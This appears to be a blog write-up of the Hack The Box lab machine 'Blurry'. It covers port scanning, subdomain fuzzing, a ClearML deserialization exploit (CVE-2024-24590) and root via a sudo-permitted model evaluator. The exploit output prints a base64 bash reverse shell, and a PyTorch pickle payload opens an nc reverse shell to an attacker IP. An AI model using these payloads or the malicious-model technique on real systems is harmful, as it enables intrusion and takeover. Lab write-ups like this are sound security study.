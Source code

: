 ```yaml
---
draft: true
title: 
date: 2024-08-13
author: William
category: 
tags: 
cover:
  image: test
  alt: test
---
```


Lets give this bad boy a go on a lovely Saturday afternoon

What can nmap tell us about this target

```bash
└─$ nmap -A -p- 10.10.11.19 -oN nmap.scan
# Nmap 7.94SVN scan initiated Sat Aug 10 11:14:11 2024 as: nmap -A -p- -oN nmap.scan 10.10.11.19
Nmap scan report for 10.10.11.19
Host is up (0.046s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to <http://app.blurry.htb/>
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
# Nmap done at Sat Aug 10 11:14:36 2024 -- 1 IP address (1 host up) scanned in 25.45 seconds

```

Lets add `app.blurry.htb` to our hosts file and run some subdomain enumeration tool to see what else is out there


```bash
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.11.19 -H "HOST: FUZZ.blurry.htb" -ac -o ffuf.scan

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       
_______________________________________________

...
app                     [Status: 200, Size: 13327, Words: 382, Lines: 29, Duration: 11ms]
files                   [Status: 200, Size: 2, Words: 1, Lines: 1, Duration: 21ms]
chat                    [Status: 200, Size: 218733, Words: 12692, Lines: 449, Duration: 56ms]
```


So we have app , files , chat subdomains. Adding these to the hosts file lets enumerate each of these for their sub directories



The `app` subdomain is running a app called clear..ml and with some trusty googling we find this vuln [https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit](https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit)

[https://github.com/diegogarciayala/CVE-2024-24590-ClearML-RCE-CMD-POC/tree/main](https://github.com/diegogarciayala/CVE-2024-24590-ClearML-RCE-CMD-POC/tree/main)



![keys](https://i.imgur.com/457thdA.png#center)




In configuring thios we get failed to reolve `api` add hto hosts Add all subdomains to hosts file






```bash
└──$ python3 exploit.py                                                    
                                           
    ⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠄⠄⠄⣠⣴⣶⣾⣿⣿⣿⣷⣶⣤⣀⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⢀⣴⣿⣿⣿⡿⠿⠟⠛⠻⠿⣿⣿⣿⡷⠆⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⢠⣿⣿⣿⠟⠁⠄⠄⠄⠄⠄⠄⠄⠉⠛⠁⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⢠⣿⣿⣿⠃⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⢸⣿⣿⡇⠄⠄⠄⠄⣠⣾⠿⢿⡶⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⢸⣿⣿⣿⣿⡇⠄⠄⠄⠄⣿⡇⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⣿⣿⣿⣿⣷⡀⠄⠄⠄⠙⠿⣶⡾⠟⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠘⣿⣿⣿⣿⣷⣄⠄⠄⠄⠄⠄⠄⠄⠄⠄⣀⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠘⢿⣿⣿⣿⣿⣷⣦⣤⣀⣀⣠⣤⣴⣿⣿⣷⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠙⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠿⠛⠁⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠄⠄⠈⠛⠻⠿⣿⣿⡏⠉⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                      
CVE-2024-24590 - ClearML RCE
============================
[1] Initialize ClearML
[2] Run exploit
[0] Exit
[>] Choose an option: 1
[+] Creating a copy of clearml.conf in clearml.conf.bak
[+] Initializing ClearML
[i] Press enter after pasting the configuration
...
Web App: http://app.blurry.htb
API: http://api.blurry.htb
File Store: http://files.blurry.htb
...
ClearML setup completed successfully.

```

The script politoly offers to execute the exploit but fails due to it needing pwncat

self report i know but after installing it


```bash
└─$ python3 exploit.py
...
============================
[1] Initialize ClearML
[2] Run exploit
[0] Exit
[>] Choose an option: 2
[+] Your IP: 10.10.14.62
[+] Your Port: 1234
[+] Target Project name Case Sensitive!: Black Swan
[+] Payload to be used: echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42Mi8xMjM0IDA+JjEi | base64 -d | sh
[?] Do you want to start a listener on 1234? (y/n): y
[+] pwncat listener started on 1234
[i] This exploit requires that another user deserializes the payload on their machine.
ClearML Task: created new task id=3df2aa3a66144bbbbdba441a8689b4ed
ClearML results page: http://app.blurry.htb/projects/116c40b9b53743689239b6b460efd7be/experiments/3df2aa3a66144bbbbdba441a8689b4ed/output/log
[i] Please wait...
ClearML Monitor: GPU monitoring failed getting GPU reading, switching off GPU monitoring
bash: cannot set terminal process group (220630): Inappropriate ioctl for device
bash: no job control in this shell
jippity@blurry:~$ 

```


followed up with a

```bash
jippity@blurry:~$ cat user.txt
================ USER_FLAG ================
```


Now to get some persistence and escalate to root

```bash
jippity@blurry:~$ cat /.ssh/id_rsa
=========== PRIVATE_KEY ===========
_________________________________________
└─$ ssh -i id_rsa jippity@10.10.11.19

jippity@blurry:~$ 

```

Persistance achived. Now lets transfure over linpeas and see how we can esculate

```bash
└─$ scp -i /home/kali/.ssh/id_rsa ./linpeas.sh jippity@10.10.11.19:~/
```

Looking through linpeas findings one thing of interest is the program /usr/bin/evaluate_model which is run as root with no password. Upon evaluating the script it take a .pth file. A .pth file is a compiled model file so if we can create our own malicious model then we can escalate.

```bash
jippity@blurry:~$ linpeas.sh
...
User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
...

```

We can use this script that a summoned from the depths of the internet. As an aside Pytouch is a big library

```python
import torch
import torch.nn as nn
import os

class MaliciousModel(nn.Module):
    # PyTorch's base class for all neural network modules
    def __init__(self):
        super(MaliciousModel, self).__init__()
        self.dense = nn.Linear(10, 1)
    
    # Define how the data flows through the model
    def forward(self, abdulrahman): # Passes input through the linear layer.
        return self.dense(abdulrahman)
   
    # Overridden __reduce__ Method
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.46 6060 >/tmp/f"
        return os.system, (cmd,)

# Create an instance of the model
malicious_model = MaliciousModel()

# Save the model using torch.save
torch.save(malicious_model, 'callhome.pth')
```

**Explanation of the Script**:

- **`MaliciousModel` Class**: Defines a simple neural network model.
- **`__reduce__ Method`**: Overridden to include a command that creates a reverse shell using netcat.
- **`torch.save` Function**: Saves the model to a file named `.callhome.pth`.

Pushing this onto the box and we execute as follows

```bash

jippity@blurry:~$ sudo /usr/bin/evaluate_model /models/callhome.pth 

# ==================
Looking to our nc awaiting in the wings we get a call home with a root reverse shell

# whoami
root
# cat /root/root.txt
================= ROOT_FLAG =================

```

We arent challenged for a password due to the config of sudo doesnt require a password for that spesific program call. So the fact that we dont know any user passwords doesnt matter

[https://www.hackthebox.com/achievement/machine/1695260/605](https://www.hackthebox.com/achievement/machine/1695260/605)